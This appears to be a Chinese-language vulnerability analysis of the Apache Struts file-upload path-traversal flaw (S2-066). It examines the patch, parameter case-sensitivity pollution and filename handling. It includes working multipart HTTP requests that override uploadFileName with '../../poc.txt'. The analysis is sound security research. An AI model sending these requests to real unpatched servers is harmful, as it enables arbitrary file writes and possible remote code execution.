




An attacker can manipulate file upload params to enable paths traversal and under some circumstances this can lead to uploading a malicious file which can be used to perform Remote Code Execution.
影响版本
- Struts 2.5.0-Struts 2.5.32
- Struts 6.0.0-Struts 6.3.0
补丁分析
漏洞描述里提到可通过伪造文件上传的参数导致目录穿越，看版本比对，有两个 Commit 引起我的关注，一个是 Always delete uploaded file，另一个是 Makes HttpParameters case-insensitive。前者的作用是确保上传的临时文件被正确上传，在修复之前，通过构造超长的文件上传参数可以让临时文件继续留存在磁盘中；
POST /s2_066_war_exploded/upload.action HTTP/1.1
Host: localhost:8080
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Length: 593
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="upload"; filename="poc.txt"
Content-Type: text/plain
test
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="caption";
{{randstr(4097,4097)}}
------WebKitFormBoundary5WJ61X4PRwyYKlip--请求处理完成后会发现 caption 参数对应的临时文件并未被删除。

后者的作用很明显，从测试用例里可以看出，将 org.apache.struts2.dispatcher.HttpParameters 类改成对参数名大小写不敏感。思前想后，前者与漏洞的直接关联应该不大，先跳过。
HttpParameters 通过成员 parameters 存储请求中的参数，类型为 Map<String, Parameter>
private final Map<String, Parameter> parameters;补丁中对 HttpParameters 的几个主要方法逻辑进行了修改，这里主要关注对 parameters 进行写入操作的方法，例如 HttpParameters#appendAll

对 Struts 的结构并不了解，先查找一下有哪些方法会直接调用该方法，结果如下

在 org.apache.struts2.interceptor.FileUploadInterceptor#intercept 方法中有使用该方法添加请求参数
Enumeration fileParameterNames = multiWrapper.getFileParameterNames();
while (fileParameterNames != null && fileParameterNames.hasMoreElements()) {
// get the value of this input tag
String inputName = (String) fileParameterNames.nextElement();
// get the content type
String[] contentType = multiWrapper.getContentTypes(inputName);
if (isNonEmpty(contentType)) {
// get the name of the file from the input tag
String[] fileName = multiWrapper.getFileNames(inputName);
if (isNonEmpty(fileName)) {
// get a File object for the uploaded File
UploadedFile[] files = multiWrapper.getFiles(inputName);
if (files != null && files.length > 0) {
List<UploadedFile> acceptedFiles = new ArrayList<>(files.length);
List<String> acceptedContentTypes = new ArrayList<>(files.length);
List<String> acceptedFileNames = new ArrayList<>(files.length);
String contentTypeName = inputName + "ContentType";
String fileNameName = inputName + "FileName";
for (int index = 0; index < files.length; index++) {
if (acceptFile(action, files[index], fileName[index], contentType[index], inputName, validation)) {
acceptedFiles.add(files[index]);
acceptedContentTypes.add(contentType[index]);
acceptedFileNames.add(fileName[index]);
}
}
if (!acceptedFiles.isEmpty()) {
Map<String, Parameter> newParams = new HashMap<>();
newParams.put(inputName, new Parameter.File(inputName, acceptedFiles.toArray(new UploadedFile[acceptedFiles.size()])));
newParams.put(contentTypeName, new Parameter.File(contentTypeName, acceptedContentTypes.toArray(new String[acceptedContentTypes.size()])));
newParams.put(fileNameName, new Parameter.File(fileNameName, acceptedFileNames.toArray(new String[acceptedFileNames.size()])));
ac.getParameters().appendAll(newParams);
}通过注释，可以了解该类为文件上传的拦截器，将文件上传相关的参数添加至 HttpParameters 对象中，对于如下的 multipart 编码
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="upload"; filename="poc.txt"
Content-Type: text/plain
test
------WebKitFormBoundary5WJ61X4PRwyYKlipHttpParameters#parameters 中得到的 key 值会具有如下特征
可通过在调用点打断点验证这一点。
upload -> 上传的文件
uploadContentType -> 文件的 Content-Type
uploadFileName -> 文件的 filename，这里为 poc.txt
根据 FileUploadInterceptor 的注释，

可以了解到，FileUploadInterceptor 会获取 3 个参数『也就是上面提到的 upload、uploadContentType 和 uploadFileName』，开发者可通过在 Action 中定义相关的 setter 方法获取这些参数的内容。
参数污染
根据上面的信息可以了解到会通过调用 setter 方法给 Action 设置参数，在编写的 Action 的 setter 方法上都设下断点可以验证这一点。
public class Upload extends ActionSupport {
private File upload;
private String uploadFileName;
private String uploadContentType;
public void setUpload(File upload) {
this.upload = upload;
}
public void setUploadFileName(String uploadFileName) {
this.uploadFileName = uploadFileName;
}
public void setUploadContentType(String uploadContentType) {
this.uploadContentType = uploadContentType;
}而 FileUploadInterceptor 中获取的参数却是来存储在 HttpParameters 类型的对象中。现在回过头看前面的补丁，它让 HttpParameters 变得对参数大小写不敏感，根据这一点可以猜测，如果 HttpParameters 存储了参数名大写和参数名小写形式的参数，其中一方是不是会把另一方给覆盖掉『通过 setter 方法』
构造如下请求
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="upload"; filename="poc.txt"
Content-Type: text/plain
test
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="UPLOAD"; filename="1.txt"
Content-Type: text/plain
test
------WebKitFormBoundary5WJ61X4PRwyYKlip--在 setter 方法打下断点，发现只被调用了一次。根据调用栈中的方法名和经验，可以很直接的了解到是通过反射调用的。只调用了一次必然和方法名的获取逻辑有关，一般和 Bean 相关的，都是根据成员的名称，得到 setter/getter 方法名，例如成员名首字母大写再拼接上 set
所以，将构造的请求中的 UPLOAD 改为了 Upload，发现 setter 方法被成功调用了两次。那么后调用的，会覆盖先调用的。根据 execute 的输出可以知道，name="upload" 覆盖了 name="Upload"，而这里的相关逻辑，在代码中体现在 com.opensymphony.xwork2.interceptor.ParametersInterceptor#setParameters 方法中
protected void setParameters(Object action, ValueStack stack, HttpParameters parameters) {
HttpParameters params;
TreeMap acceptableParameters;
// this.ordered 默认为 false
if (this.ordered) {
params = HttpParameters.create().withComparator(this.getOrderedComparator()).withParent(parameters).build();
acceptableParameters = new TreeMap(this.getOrderedComparator());
} else {
params = HttpParameters.create().withParent(parameters).build();
acceptableParameters = new TreeMap();
}原本在 HttpParameters#parameters 成员中，顺序是小写在前，大写开头在后『HashMap』，而这里的 acceptableParameters 类型为 TreeMap，从 HashMap 中读取内容再插入 TreeMap 后顺序发生了变化。
由此可以知道，可以通过小写模式，覆盖首字母大写模式的参数内容了。
目录穿越
前面已经可以进行文件上传参数的覆盖了，那么目录穿越在哪里。看了下 JakartaMultiPartRequest#processUpload 的逻辑，上传的内容路径并不可控，文件上传参数存储在 Commons Fileupload 库创建的临时文件中，文件名也不可控。
试了下修改请求中的 filename 加上目录穿越，但 Action 中得到却是截断之后的文件名，这是因为 FileUploadInterceptor#intercept 中在获取上传的文件名时 [1]
String[] fileName = multiWrapper.getFileNames(inputName); // [1]
public String[] getFileNames(String fieldName) {
// 调用 JakartaMultiPartRequest#getFileNames
return this.multi == null ? null : this.multi.getFileNames(fieldName);
}会通过 JakartaMultiPartRequest#getCanonicalName 方法会对获取的文件名进行截断
protected String getCanonicalName(String originalFileName) {
int forwardSlash = originalFileName.lastIndexOf(47);
int backwardSlash = originalFileName.lastIndexOf(92);
String fileName;
if (forwardSlash != -1 && forwardSlash > backwardSlash) {
fileName = originalFileName.substring(forwardSlash + 1);
} else {
fileName = originalFileName.substring(backwardSlash + 1);
}
return fileName;
}所以，之前尝试的如下请求是不会成功的
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="upload"; filename="../poc.txt"
Content-Type: text/plain
test
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="Upload"; filename="1.txt"
Content-Type: text/plain
test
------WebKitFormBoundary5WJ61X4PRwyYKlip--既然目录穿越无法发生在 Struts 框架中，那根据 S2 历史漏洞的特点，只能是在二次开发的业务代码中了。前面已经说了，通过首字母的大小写变化可以进行参数的覆盖，那么覆盖掉 Action 中得到的 filename『uploadFileName』，是不是可以？『如果业务逻辑自身没有做检查就可能导致目录穿越发生了』
所以，只要覆盖掉 Action 中 uploadFileName 这个成员就可以了，name="uploadFileName" 在 JakartaMultiPartRequest#processUpload 中会被识别为表单参数，而非文件参数，所以其内容也不会经过 FileUploadInterceptor。而参数最终都会经过 ParametersInterceptor#setParameters 添加至 Action 中
所以你可以构造如下请求覆写 uploadFileName
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="Upload"; filename="poc.txt"
Content-Type: text/plain
test
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="uploadFileName";
../../poc.txt
------WebKitFormBoundary5WJ61X4PRwyYKlip--又或是
POST /s2_066_war_exploded/upload.action?uploadFileName=../../poc.txt HTTP/1.1
Host: localhost:8080
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5WJ61X4PRwyYKlip
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 593
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="Upload"; filename="poc.txt"
Content-Type: text/plain
test
------WebKitFormBoundary5WJ61X4PRwyYKlip--